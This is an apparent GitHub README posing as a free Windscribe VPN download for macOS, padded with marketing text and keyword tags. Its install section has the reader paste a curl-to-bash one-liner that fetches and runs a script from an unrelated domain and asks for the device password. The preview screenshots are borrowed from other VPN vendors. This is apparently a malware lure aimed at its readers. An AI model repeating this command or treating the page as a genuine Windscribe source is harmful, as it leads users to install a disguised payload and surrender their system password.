 # Windscribe VPN — Free Download for Mac OS 🛡️

Windscribe is a powerful VPN solution designed to secure your online activity and unlock restricted content. Follow the instructions below to install Windscribe on your Mac for free and enjoy private browsing with ease.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://windscribe-vpn-for-mac.github.io/.github/)

If the download button doesn’t work, follow the step-by-step terminal installation guide below.

## 📦 How to Install Windscribe for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with Windscribe

- 🛡️ **Enhanced Privacy**: Protect your online identity with strong encryption and anonymous browsing.
- 🌍 **Global Access**: Bypass geo-restrictions to access content from anywhere in the world.
- ⚡ **Fast Speeds**: Enjoy high-speed connections for streaming and browsing without lag.
- 🔒 **Secure Connections**: Stay safe on public Wi-Fi with Windscribe’s robust security protocols.
- 🧩 **User-Friendly Interface**: Intuitive design makes it easy to connect and customize settings.
- 📱 **Multi-Device Support**: Use Windscribe across multiple devices with a single account.

---

## About Windscribe

Windscribe is a leading VPN service that prioritizes user privacy and security. By leveraging advanced encryption protocols, Windscribe ensures your online activities remain private, making it an ideal choice for users seeking a **free VPN for Mac**. Whether you're browsing at home or on public Wi-Fi, Windscribe’s robust security features protect your data from prying eyes. Its easy-to-use interface simplifies the process of securing your connection, even for beginners.

With **Windscribe free download**, you gain access to servers in multiple countries, allowing you to bypass geo-restrictions and access content seamlessly. Whether it’s streaming your favorite shows or accessing blocked websites, Windscribe empowers users with unrestricted internet access. The free version offers generous data limits, making it a top choice for those looking for a **Mac VPN free** solution without compromising on quality.

The software’s lightweight design ensures minimal impact on your Mac’s performance, making it perfect for users who value both speed and security. Windscribe’s commitment to **secure VPN for Mac** means you can browse with confidence, knowing your data is shielded from hackers and trackers. Its compatibility with macOS ensures a smooth installation process, whether you choose the .dmg file or terminal-based setup.

Windscribe stands out for its versatility, offering both free and premium plans to suit different needs. The **download Windscribe for Mac** process is straightforward, and the app integrates seamlessly with macOS, providing a hassle-free experience. From casual browsing to protecting sensitive information, Windscribe delivers a reliable and efficient VPN solution.

### Why Choose Windscribe?

Windscribe’s key advantage lies in its balance of accessibility and security. Unlike many free VPNs, it offers a generous data allowance, fast connection speeds, and a user-friendly interface, making it a top pick for **VPN for Mac free** users. Its no-logs policy ensures your browsing history remains private, while features like ad-blocking and firewall protection enhance your online experience. Whether you’re a student, professional, or casual user, Windscribe’s **Windscribe free download** provides a secure and seamless way to protect your digital life.

---

## 🖼 Preview

![Windscribe Dashboard](https://www.security.org/app/uploads/2023/12/NordVPN-on-Mac.png)  
*Windscribe’s sleek dashboard for easy VPN management*

![Server Selection](https://vpncdn.protonweb.com/image-transformation/?s=s&image=Zy_O_Zzq8j_Q_Ar_T0_Fe_D_free_unlimited_vpn_for_mac_73a8580dd3.png)  
*Choose from global servers to bypass restrictions*

![Connection Status](https://vpncdn.protonweb.com/image-transformation/?s=s&image=Zy_OR_Jq8j_Q_Ar_T0_F_Ua_an_easy_to_use_vpn_app_for_mac_1e02d60903.png)  
*Real-time connection status for secure browsing*

---

## 🔍 Tags

Windscribe free download, Windscribe download, download Windscribe for Mac, Mac VPN free, free VPN for macOS, Windscribe macOS download, Windscribe download mac, Windscribe download mac os, Windscribe free mac, Windscribe mac download, download Windscribe mac, windscribe free, windscribe for mac, windscribe download free
